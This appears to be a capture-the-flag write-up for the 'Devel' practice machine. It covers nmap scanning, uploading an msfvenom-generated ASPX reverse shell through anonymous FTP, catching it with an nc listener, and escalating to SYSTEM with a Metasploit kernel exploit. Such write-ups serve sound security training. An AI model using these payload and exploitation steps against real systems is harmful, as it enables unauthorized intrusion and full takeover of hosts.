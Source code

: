 # Devel

## Overview

On the machine a webserver and a FTP server are found to be running. Looking into the FTP server we find that we can upload files to the webserver. At this point a reverse shell is made and uploaded to the server. Once uploaded the shell is ran and a user shell is obtained on the machine. Looking into the machine a kernel exploit is found. Using metasploit, this kernel exploit is ran and a shell as NT Authority/System is gained.

## Enumeration

To begin 2 seperate nmap scans are run. The first one is to discover all of the open ports on the machine and the other is used to gain information about each port. There are only 2 ports that are open on the machine. The first is a webserver on port 80 and the other is a FTP server on port 21.

The first scan to find all the ports is:

```bash
sudo nmap -p- 10.10.10.5 -oA nmap/all-ports  
[sudo] password for tc:    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 23:50 EDT  
Nmap scan report for 10.10.10.5  
Host is up (0.019s latency).  
Not shown: 65533 filtered ports  
PORT   STATE SERVICE  
21/tcp open  ftp  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 104.81 seconds
```

The second scan to gain more information is:

```bash
sudo nmap -p21,80 -sC -sV -oA nmap/info 10.10.10.5  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 23:53 EDT  
Nmap scan report for 10.10.10.5  
Host is up (0.019s latency).  
  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     Microsoft ftpd  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| 03-18-17  01:06AM       <DIR>          aspnet_client  
| 03-17-17  04:37PM                  689 iisstart.htm  
|_03-17-17  04:37PM               184946 welcome.png  
| ftp-syst:    
|_  SYST: Windows_NT  
80/tcp open  http    Microsoft IIS httpd 7.5  
| http-methods:    
|_  Potentially risky methods: TRACE  
|_http-server-header: Microsoft-IIS/7.5  
|_http-title: IIS7  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```

## Getting user shell

We find that the FTP server has anonymous access. After connecting to the FTP server and looking at the files it looks like the files on the webserver.

```bash
ftp> dir  
200 PORT command successful.  
125 Data connection already open; Transfer starting.  
03-18-17  01:06AM       <DIR>          aspnet_client  
03-17-17  04:37PM                  689 iisstart.htm  
03-17-17  04:37PM               184946 welcome.png  
226 Transfer complete.
```

We also find that we can upload files to the FTP server. At this point we decide to create a reverse shell and trying to get it to run on the server. In order to make a reverse shell we need code execution. On a windows server without PHP code execution can be gained by using an aspx or asp file. Using msfvenom we can generate a reverse shell in the aspx form.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST={IP Address} LPORT=9001 -f aspx > rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2701 bytes
```

After the creating the file we then upload it to the server. 

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put rev.aspx
local: rev.aspx remote: rev.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2736 bytes sent in 0.00 secs (76.7427 MB/s)
ftp> dir
421 Service not available, remote server has closed connection
ftp> exit
```

At this point all that is needed is to navigate to the webpage and catching the shell. 

![Navigating to webpage](attachments/devel1.png)

```bash
nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49158.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::58c0:f1cf:abc6:bb9e
   Temporary IPv6 Address. . . . . . : dead:beef::68c4:b0bd:7512:ec01
   Link-local IPv6 Address . . . . . : fe80::58c0:f1cf:abc6:bb9e%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:3982%15
                                       10.10.10.2

Tunnel adapter isatap.{C57F02F8-DF4F-40EE-BC21-A206B3F501E4}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

At this point we can access the user.txt file. 

## Getting root

At this point a we upgrade to a meterpreter shell. The easiest way to do this is change the payload we use in the msfvenom command. Instead of using ```windows/shell_reverse_tcp``` we can use ```windows/meterpreter_reverse_tcp```. Once we are in a meterpreter shell we can use the metasploit module ```local_exploit_suggester```. Using this module we get a list of different options to escalate our shell. 

```bash
[*] 10.10.10.5 - Collecting local exploits for x86/windows...   
[*] 10.10.10.5 - 37 exploit checks are being tried...  
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.  
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.   
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.  
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.  
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.  
[*] Post module execution completed
```

Looking at the list above, we see that the expoit ```exploit/windows/local/ms10_015_kitrap0d``` shows that the service is running. Using this exploit we end up getting a shell as NT Authority/System. We then can access the root.txt flag.